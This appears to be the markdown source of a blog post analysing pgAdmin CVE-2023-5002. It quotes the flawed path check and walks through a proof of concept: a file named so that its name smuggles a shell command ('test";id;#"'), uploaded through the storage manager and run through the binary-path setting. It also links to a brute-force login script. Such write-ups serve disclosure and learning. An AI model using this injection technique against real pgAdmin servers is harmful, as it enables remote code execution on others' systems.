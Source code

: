 ```yaml
---
title: PgAdmin CVE-2023-5002 exploitation
date: 2024-03-10 12:00:00 +00:00
tags: [hack, exploit, rce]
description: La la la short description for rss
---
```


# CVE-2023-5002

## Description

[This vulnerability][1] is a continuation of vulnerability [CVE-2022-4223][2] ([there is a good article][3] about this vulnerability).

[A security researcher][4] found the vulnerability and [created a pull request][5] with a fix and example of command injection:
```python
 >>> subprocess.getoutput(r'echo "{0}"'.format("Hello $(whoami)").replace('"', '""'))
Hello gronke
```

The problem is that pgadmin allows you to check the existence of utilities by passing the path to them:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-1.png">

in this case, [validation is carried out][6] only for the existence of such a path:
```python
...
    # if path doesn't exist raise exception
    if not os.path.exists(binary_path):
        current_app.logger.warning('Invalid binary path.')
        raise Exception()
    # Get the output of the '--version' command
    version_string = \
        subprocess.getoutput('"{0}" --version'.format(full_path))
...
```

For such a check to pass, the file must exist in the system. Fortunately, pgadmin has a storage manager that allows you to upload any files.

## Proof of Concept

We have everything to exploit the vulnerability.

We should start by preparing a file that needs to be uploaded to `pgadmin`. Since command execution occurs when the file name puts in `subprocess.getoutput`, the file must simultaneously be a valid path and command.
```bash
$ touch 'test";id;#"'
$ python3
>>> import os, subprocess
>>> os.path.exists('test";id;#"')
True
>>> subprocess.getoutput('"{0}" --version'.format('test";id;#"'))
uid=1000(user) gid=1000(user) groups=1000(user)
```

After preparing the file, we need to upload it `tools -> storage manager -> upload`:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-2.png">

Our file loaded, but the double quotes were removed:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-3.png">

We also need to rename the file to return double quotes instead of url encoded chars:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-4.png">

By default, `pgadmin` saves all downloaded files in `/var/lib/pgadmin/storage/user@domain.com` but with the `@` character replaced by `_`.

You can find the exact path in the settings (they can be read by an authorized user via the `API`):
```python
...
STORAGE_DIR = "/var/lib/pgadmin/storage"
...
```

And finally run our file for execution `file -> preference -> binary path` used full path to our file `/var/lib/pgadmin/storage/user_domain/test";id;#"`:
<img src="/assets/img/pgadmin-cve-2023-5002/pgadmin-5.png">

## Bonus parts

### CVE-2024-2044

Just a week ago (from the moment of writing this article) [an issue was created][97] in pgadmin with a new RCE ([backup link][98]).

### Brute-force login

As a bonus to vulnerability, [get a script][99] for brute force login in PgAdmin as a gift.


[1]: https://nvd.nist.gov/vuln/detail/CVE-2023-5002
[2]: https://nvd.nist.gov/vuln/detail/CVE-2022-4223
[3]: https://frycos.github.io/vulns4free/2022/12/02/rce-in-20-minutes.html
[4]: https://github.com/gronke
[5]: https://github.com/pgadmin-org/pgadmin4/pull/6772
[6]: https://github.com/pgadmin-org/pgadmin4/blob/c08953b9b386e302835585bded6da4df70358e71/web/pgadmin/misc/__init__.py#L268
[97]: https://github.com/pgadmin-org/pgadmin4/issues/7258
[98]: https://gist.github.com/dorosch/748e62c23b25003c830ed1297ff292c9
[99]: https://gist.github.com/dorosch/8320a91106d0684d6d2784def2d0cede
